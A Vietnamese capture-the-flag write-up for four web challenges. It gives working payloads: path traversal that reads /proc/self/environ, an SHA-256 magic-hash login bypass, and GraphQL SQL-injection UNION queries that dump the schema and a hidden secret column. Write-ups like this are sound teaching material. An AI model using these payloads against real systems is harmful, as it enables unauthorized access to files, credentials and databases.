


# The Altered Grimoire

\- Khi nhập bất kì một endpoint nào trên thanh URL, trả ra trang lỗi 404, đọc page source và nhận được đường dẫn dẫn tới nơi chứa thông tin được mã hóa của các tài khoản

```html
<!--
  sometimes paths are not written as they appear...
  think in segments, not full routes

  /thjslfgblkf/jdfj546j/kjfhgstnjkn4/users.txt
-->
```


\- Đường dẫn vô cùng random và gần như không thể brute-force:



\- Trong đó, lộ tài khoản admin với thông tin `EAdmin:0e46289032038065916139621039085883773413820991920706299695051332`, khi đưa vào AI, nó xác nhận đây là SHA-256 magic hash

&rarr; EAdmin:34250003024812

> 34250003024812  --SHA256-->  0e46289032038065916139621039085883773413820991920706299695051332

\- Đăng nhập thành công, truy cập Admin panel và nhận flag

# Webifile

\- Bài này có chức năng
- Tải file 
- Tạo document với title và content
- Tạo document bằng cách ghép file có sẵn trên server với title do người dùng nhập
- Xem document qua id mà người dùng nhập vào

\- Lỗ hổng Path Traversal được mình tìm ra khi thử inject:

```json
{
    "filename": "../",
    "title": "a"
}
```

\- Sau đó response trả về một thông báo điếng người: `Is a directory: '/tmp/app/../'`
&rarr; confirm chắc chắn lỗi Path Traversal

\- Vì chall sử dụng docker để spawn instance, ta inject:

```json
{
    "filename": "../../proc/self/environ",
    "title": "a"
}
```

\- Sau đó, sử dụng chức năng xem tài liệu bằng số id, nhập vào id của document và web trả về giá trị của các biến môi trường (Trong đó có FLAG=`0xV01D{...}`)

# Action Packed

\- Chall là một web giao diện, tĩnh, khi tương tác với các nút thì không về có dấu hiệu của việc web đã nhận thao tác

\- Nhưng khi vào Burp, trong Proxy đã trả về response là API key khi server tin tưởng toàn bộ thao tác của ta và đính kèm flag

# Silent Oracle

> A quiet internal directory exposes only a small public surface. The useful answers are hidden behind how
  the service thinks about people and roles.

\- Vừa mới truy cập website, ta thấy một giao diện truy vấn graphql trực tiếp

\- Khi thực hiện truy vấn về người dùng, kết quả trả về 4 người, trong đó có: 

```json
{        
"__typename": "User",
          "bio": "Private administrative account.",
          "displayName": "Directory Admin",
          "id": "4",
          "role": "admin",
          "username": "admin"
}
```
\- Nhận thấy web trả về kết quả khi tìm user đó là: trong tên user chứa chữ cái đó &rarr; Sử dụng toán tử LIKE
VD: select * from users where username like %...

\- Sau đó test SQLi:

```
{
    users(search: "nope%' OR 1=1 --") {
      id
      username
      displayName
      role
      bio
    }
}
```

\- Nó trả đủ 4 user, nên search bị SQL injection

\- Tiến hành inject payload lấy schema SQLite:

```
{
    users(search: "nope%' UNION SELECT 1,name,type,coalesce(sql,''),5 FROM sqlite_master --") {
      id
      username
      displayName
      role
      bio
    }
}
```
- Ta thấy được lệnh gửi tạo bảng `users` trong đó chứa một cột được ẩn đi, là cột thứ 6 mang tên `secret`

\- Payload lấy flag bằng cách map `secret` vào field public `bio`:

```
{
    users(search: "nope%' UNION SELECT id,username,display_name,role,secret FROM users --") {
      id
      username
      displayName
      role
      bio
    }
}
```

> 0xV01D{ead919eb-ea3a-4257-aa20-26ef538592c4}